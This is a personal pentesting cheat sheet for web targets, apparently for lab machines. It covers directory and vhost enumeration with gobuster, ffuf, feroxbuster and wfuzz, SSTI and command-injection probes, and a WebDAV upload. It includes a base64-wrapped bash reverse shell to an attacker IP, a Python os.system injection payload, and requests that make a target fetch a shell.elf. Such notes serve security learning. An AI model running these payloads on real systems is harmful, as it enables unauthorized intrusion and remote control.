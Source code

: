 # Web Ass Tool

## Web Enum
- curl traversal check ``` curl --path-as-is {URL} ```

## Nmap
- Use NSE script
``` http-num  ```

## Use Gobuster 

### Source code
1. ctrl-u to read source code
2. Try finding libraries, engine, plugins, hyperlinks

### Guess what framework / language is using!
- ``` whatweb ```
- Can be identify by error in error page e.g. "Whitelabel Error Page" = Springboot 
- Try "SecList/Discovery/Web-Content/spring-boot.txt"

###  Gobuster fuzzing
1.  ``` gobuster dir -u {ip} -w /usr/share/wordlists/dirb/common.txt -t 42 ```

    ``` -x txt,bak,php,html,js,asp,aspx ```can add filetype here (https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)

    ``` -d ``` discover backup file e.g. .bak

### Gobuster enum API
- Provide pattern in pattern file
    ``` {GOBUSTER}/v1 ```

### Gobuster enun vhost
1. ``` gobuster vhost -u {http://goolugoolu.com} -w /usr/share/seclists/discovery/dns/subdomains-top1million-5000.txt ```

### Enum (RECURSIVELY IF NEEDED!)
    ``` gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern -t 42```

### Try harder !
- Try more seclists
    ```
    /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories.txt
    /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
    ```
- Enum try more file extension!!! (Dont be lazy)
- if website is not case-sentitive can use single case only wordlist

### With proxy simple!
- ``` HTTP_PROXY="http://192.168.153.189:3128/" gobuster dir -u http://192.168.153.189:8080 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 42  ```

## feroxbuster 
- Support recursive and interactive scanning
- ``` feroxbuster -k -u {url} -x {file_type} -o {outputfile} -w {wordlist} ```
### Stop scanning some path within progress
1. Hit 'enter' to start menu
2. ``` c -f {number of branch} ```

## ffuf
### Check subdomain
- ```ffuf -u http://{ip} -H "Host:FUZZ.{hostname}" -w /usr/share/seclists/discovery/dns/subdomains-top1million.txt ```
- ``` -fc 403 ``` filter code = 403
- ``` -fs 1234 ``` filter size = 1234
### Check special character
- ``` using /opt/seclists/fuzzing/special-char.txt ```

## SSTI
- https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti 
- ``` ${{<%[%'"}}%\. ``` Testing these character

### Check which character can be use
1. Try calling the get/post in burp
2. right click the request and "Copy to file"
3. edit the file and add "FUZZ" to the request
4. fuzz ``` fuzz -request search.req -request-proto http -w /usr/share/SecLists/Fuzzing/special-chars.txt ```
5. check which character is vulnerable ( sometimes maybe result size = 0 is )
6. can try code execution e.g. python: maybe code have ```eval()``` and you can ```__import__('os').system(whoami)```

### Java: check link
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Base64 encode and decode a one liner
1. ``` echo -n "bash -c 'bash -i >& /dev/tcp/10.10.10.10/9001 0>&1'" | base64 ``` encode
2. ``` echo -n {base64encoded} | base64 -d | bash``` decode and run in victim
   
### Bash command injection
- try url encode also if normal not working
- ```;{sleep 2};```
- ```; sleep 2; ```

## Burp Suite
- You know what to do =]

## Dirb
- check hidden shit
- ``` dirb http://192.168.1.224/ /usr/share/wordlists/dirb/common.txt ```

## Traversal with gobuster if can access machine file system
- e.g. ../../...../Users/Hayer/{Gobuster}.txt .pdf etc...

- curl POST ``` curl -X POST -d "code=2*2" http://192.168.171.117:50000/verify```

- curl POST w/ JSON ``` curl -v -X POST -H "Content-Type: application/json" -d '{"user":"clumsyadmin", "url":"http://192.168.45.197/shell.elf"}' "http://192.168.173.134:13337/update"  ```

- useful file 
1. .htaccess will tell you some hidden allowed key pair header --> add = can access 
   ``` do with burp suite browser
    - proxy -> option -> match and place --> request header & replace: {new header} --> ok
   ```

- Useful url

    ``` sitemap.xml robots.txt ```

- Useful header info

    ``` X-??? ```

- http file to markdown
  ``` curl -s http://192.168.244.140:8000/ | html2markdown ```

## wFuzz
- https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz 
1. ``` wfuzz -c -z file,/usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -d '{"user":FUZZ,"url":"http://192.168.45.197/shell.elf"}' -H "Content-Type: application/json" -t 20 -v http://192.168.173.134:13337/update ```

# Try Default password !!!

## HTML entity encoder
- https://mothereff.in/html-entities 
- e.g. for java <xml>

# Webdav hacks
- if allow public method POST
## Inject rev shell
1. ``` cadaver http://192.168.219.122 ```
2. input user name
3. input password
4. ``` put sussy.baka ```